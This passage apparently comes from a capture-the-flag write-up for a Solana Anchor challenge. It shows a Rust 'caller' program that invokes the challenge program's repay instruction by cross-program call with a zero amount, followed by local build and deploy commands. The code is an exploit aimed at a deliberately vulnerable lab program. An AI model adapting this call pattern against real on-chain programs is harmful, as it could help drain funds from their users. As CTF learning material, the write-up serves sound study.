 ```rust
use anchor_lang::prelude::*;

use anchor_spl::token::{ TokenAccount, Token };

use challenge3::{self, Pool, State};
use challenge3::cpi::accounts::Repay;
use challenge3::program::Challenge3;

declare_id!("3dxs6HNWYRGW3LTQygqJaJDYhbGEfA8NR1HKEbpi6rZ6");

#[program]
pub mod caller {
    use super::*;

    pub fn call_repay(ctx: Context<RepayStuff>) -> Result<()> {
        msg!("Calling the repay from other program");
        
        let cpi_program = ctx.accounts.chall3.to_account_info();
        let cpi_accounts = Repay {
            player: ctx.accounts.player.to_account_info(),
            user: ctx.accounts.player.to_account_info(),
            state: ctx.accounts.state.to_account_info(),
            pool: ctx.accounts.pool.to_account_info(),
            pool_account: ctx.accounts.pool_account.to_account_info(),
            depositor_account: ctx.accounts.depositor_account.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info()
        };
        let cpi_ctx = CpiContext::new(cpi_program, cpi_accounts);
        challenge3::cpi::repay(cpi_ctx, 0)

    }
}

#[derive(Accounts)]
pub struct RepayStuff<'info>{
    pub chall3: Program<'info, Challenge3>,
    pub player: AccountInfo<'info>,
    pub user: Signer<'info>,
    pub state: Account<'info, State>,
    pub pool: Account<'info, Pool>,
    pub pool_account: Account<'info, TokenAccount>,
    pub depositor_account: Account<'info, TokenAccount>,
    pub token_program: Program<'info, Token>,
}
```
- Deploying the program locally.

```bash
$ anchor build --program-name caller                  //buliding
$ solana program deploy target/deploy/caller.so       //deploying
Program Id: 3dxs6HNWYRGW3LTQygqJaJDYhbGEfA8NR1HKEbpi6rZ6
```
